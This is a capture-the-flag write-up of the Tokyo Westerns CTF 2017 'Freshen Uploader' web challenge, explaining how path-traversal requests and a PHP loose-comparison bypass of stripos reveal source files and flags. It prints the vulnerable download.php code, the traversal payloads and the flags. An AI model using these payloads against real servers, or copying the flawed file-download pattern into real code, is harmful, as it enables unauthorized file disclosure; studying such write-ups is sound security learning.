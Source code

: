 +++
title="Tokyo Westerns CTF 2017 - Web 1 - Freshen Uploader"
date="2017-09-04"
description="A web challenge, where we have a exploit a LFI and then a vulnerable type check in PHP against return value of a string function named 'stripos'"
author="Nagesh Podilapu"
[taxonomies]
tags=["ctf", "web", "php"]
+++

In this challenge they provided a simple web page hosted at http://fup.chal.ctf.westerns.tokyo/ (Only available during competition).

![Front page of the given challenge](home_page.png)

All this page has is a download link, so I quickly had a look at the download link.

```
http://fup.chal.ctf.westerns.tokyo/download.php?f=6a92b449761226434f5fce6c8e87295a
```

Ah oh! Looks like we can change URL parameter **f**, so I tried to download the script **download.php** by changing parameter value to **f=../download.php**. Yay! It worked! so this is an LFI.

```php
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
?>
```

We got our first flag: **TWCTF{then_can_y0u_read_file_list?}**.

So we still need to read file_list to get another flag. Well! we went ahead and downloaded **index.php** this time.

```php
<?php
include('file_list.php');
?>
... some redacted HTML code ...
```

So, we need to download source code of file_list.php as well. But! the condition **stripos($filename, 'file_list') != false) die();** is not letting us download this file. Somehow we need to bypass this.

After a few minutes of struggle to understand what's wrong, my eyes glazed over **!=** operator which will not check type. So, I quickly opened up a php interpreter on my machine to do some trails.

```
php > if(stripos("file_list.php","file_list") != false) print "I'm here";
php > if(stripos("hello file_list.php","file_list") != false) print "I'm here";
I'm here
php > echo stripos("file_list.php","file_list");
0
php > echo stripos("hello file_list.php","file_list");
6
```

From the above, it looks like stripos is taking a source string as first parameter and substring to find as a second parameter then it's returning the first index where it found the given substring. So, by putting the string **file_list** at the very beginning of parameter **'f'** will make the result of stripos to zero, which will bypass the condition. Awesome! Now all we need to do is **f=file_list/../../file_list.php**

```php
<?php
$files = [
  [FALSE, 1, 'test.cpp', 192, '6a92b449761226434f5fce6c8e87295a'],
  [FALSE, 2, 'test.c', 325, '27259bca9edf408829bb749969449550'],
  [TRUE, 3, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213', 1337, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213'],
  [FALSE, 4, 'test.py', 94, '951470281beb8a490a941ac73bd10953'],
];
?>
```

Well! we have the secret file name where our flag is **flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213**.

Now we can download the file simply by using the payload **f=flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213**.

And the flag is: **TWCTF{php_is_very_secure}**

A little sarcasm included ¯\\_(ツ)_/¯
